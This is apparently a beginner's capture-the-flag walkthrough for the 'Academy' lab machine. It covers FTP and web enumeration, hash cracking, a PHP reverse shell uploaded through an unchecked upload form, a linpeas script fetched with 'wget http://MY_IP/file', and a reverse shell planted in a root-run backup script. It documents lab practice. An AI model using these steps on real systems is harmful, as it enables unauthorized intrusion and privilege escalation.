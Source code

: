 This machine is one of the first machines i got root access to. It was really fun and this is going to be like a walkthrough to it.
Advice to beginners just like me, I won't advise you follow this walkthrough back to back as it will rnot really help you progress well in your journey. You can just come here to check when you get stuck and have tried all possible things you know before.

First we load our machine and get our IP address. For that we use the command <ip a> and we copy our IP address. That will be the target IP. 
![image](https://github.com/Bangis041/academy-/assets/74382096/9c438e88-5791-4089-83fe-921446e9cc60)


We start by doing the normal, scanning for ports to see which ports are opened and vulnerable. For this, I did a nmap scan with SYNTAX: <nmap -A -p- IP>
![image](https://github.com/Bangis041/academy-/assets/74382096/3d764b7f-820c-41d3-b1d1-34811b658b62)

From the scan above, we can see we had a number of opened ports. Port 21, 22 and 80. Port 21 looked interesting since it's the first and has a content we would like to view and also, anonymous FTP login allowed.
We go ahead to check out what ftp has for us. For that we use <ftp IP> and then we are able to list what files are there. FTP simply means file transfer protocol, it is used to download, upload, and transfer files from one location to another on the internet and between systems.
![image](https://github.com/Bangis041/academy-/assets/74382096/d07f7c83-9256-4046-a6b6-6cf56a21cb1e)


Here we downloaded the note.txt file using <get file-name> and then I viewed it on my attacker's machine. From the note.txt, we found out Grimmie was a user and dev who uses same passwords everwhere hehe😂 and we also found a SQL database where we saw the student RegNo, passwords and all other things that can be used to login. It was also from 2020 and the message was from jdelta.

After that we check out the next port that might matter to us. SSH is not it so we move down to port 80.
Just paste the IP on your browser and check round for any useful information. After loading the website, there was no much information. we only knew what technology was behind it.
![image](https://github.com/Bangis041/academy-/assets/74382096/53b38ac7-4519-4202-90c5-ca4b81d25de3)
Here we proceed to using a directory buster. I will be using gobuster in this instance. SYNTAX: <gobuster dir -u http://IP -w wordlist_file/path>.
![image](https://github.com/Bangis041/academy-/assets/74382096/bdcf9185-6b31-4618-b9a2-1d6e827a3332)

Afer scanning we were able to get two directories. One interests me more and that is /academy. Why? Because I saw something that has to do with student in the note.txt file we saw from FTP. Now we search for http://IP/academy. After loading, we get to see a login page that requires us to use a REG NO and password. I did that and i got an error ![image](https://github.com/Bangis041/academy-/assets/74382096/3282bcab-4f23-4414-895c-ded129a73056)
 so i looked at the password again and realized it was not a password but a hash. Most students used weak passwords😂. I simply used https://crackstation.net to crack the password and it was "student" so i logged in and said to myself "I'm IN !!!" hehe.
![image](https://github.com/Bangis041/academy-/assets/74382096/64a793e0-cdc9-4e1b-8199-4617a0b93152)

Nothing was looking interesting here, just the 'My Profile' page. I uploaded a photo there and it went successful and then i tried to upload a file that was neither .jpg or .png format and it went. I smiled and said to myself, I am in that mode already with one kind of evil smile on my face. The plan here was to create a reverse shell and see if we can gain access. I simply go to google and search for php reverse shell. It bring out one pentestmonkey githb, i moved in there and saw a sweet code i can work with. i copied the entire code and used nano to create a .php file. I named it shell.php. SYNTAX: <nano <file_name>.php>. Read the code and change what needs to be changed, upload and listen. Once again guys.... I'm in!!!. I tried running <sudo -l> to check if i gain root access, it gave an error. So then i realised i needed to use an automation tool i learnt about on https://tryhackme.com/r/room/linprivesc. Simply go to google and search 'linpeas'. I found the script, ![image](https://github.com/Bangis041/academy-/assets/74382096/2437bec1-dff5-49ae-9557-dd9d001422cb)
i copied and pasted in a .sh file i named linpeas. Now i have to transfer the file to the shell by hosting a webserver ad using wget. since I am transferrig from my machine to the target's mahine, i use <wget http://MY_IP/file> ![image](https://github.com/Bangis041/academy-/assets/74382096/040247fa-141e-4d1f-ab19-828aaee7d1f8). Now is time to change the permission to make it executable and then run!!!. 
![image](https://github.com/Bangis041/academy-/assets/74382096/269bb845-d796-4154-81b7-ddd10c3906ee)
We were given what to look out for also...made work easier. While scrolling through, I was able to get this...* * * * * /home/grimmie/backup.sh and also this 👇
![image](https://github.com/Bangis041/academy-/assets/74382096/a4edae2d-e509-426d-990c-a40d80c03c68) and also a password that kept repeating itself in multiple instances. I think now is time i use port 22 which is SSH since we have confirmed that Grimmie is a user and we have a possible password. SYNTAX for SSH: <ssh user@IP> and guess what again guys...I'm in🥱. 

![image](https://github.com/Bangis041/academy-/assets/74382096/481ae434-82a8-40db-bdd9-f84eac966f9d)
Now it's looking like it's a dead end after trying sudo -l. I checked the content of backupsh and realised it supposed to run at some point. Crontabs did not work so i used ps aux to list processes and we can see it is running as root user. Maybe we are correct.
![image](https://github.com/Bangis041/academy-/assets/74382096/94de302c-2c28-410a-b51c-a7f04ad8f0ee). 

From here, we head over to google.com as it is out best friend to ask it asbout "bash reverse shell one liner" and we see a link on pentestmonkey. 
![image](https://github.com/Bangis041/academy-/assets/74382096/319e4683-a49a-43a1-82a7-01a53a3994f6)

We get a command to use to get a shell...Let's try it and see what comes.
![image](https://github.com/Bangis041/academy-/assets/74382096/17267a78-6af2-4561-85c6-37bd8fb39fd1).

For this to work, we have to set up a listener on our machine and specify the port we are listening on. For me it is 5678. ![image](https://github.com/Bangis041/academy-/assets/74382096/198043da-f221-4a9a-b9eb-19b27c9805e3).
We then wait for it to run, I waited for about 28seconds and I AM IN!!!!!

![image](https://github.com/Bangis041/academy-/assets/74382096/5203fc05-b3bb-44bf-8590-abcfcb7113e3)
Just find the flag and at it out. 
![image](https://github.com/Bangis041/academy-/assets/74382096/b87492b2-0a0e-47d5-b436-275268df8453)

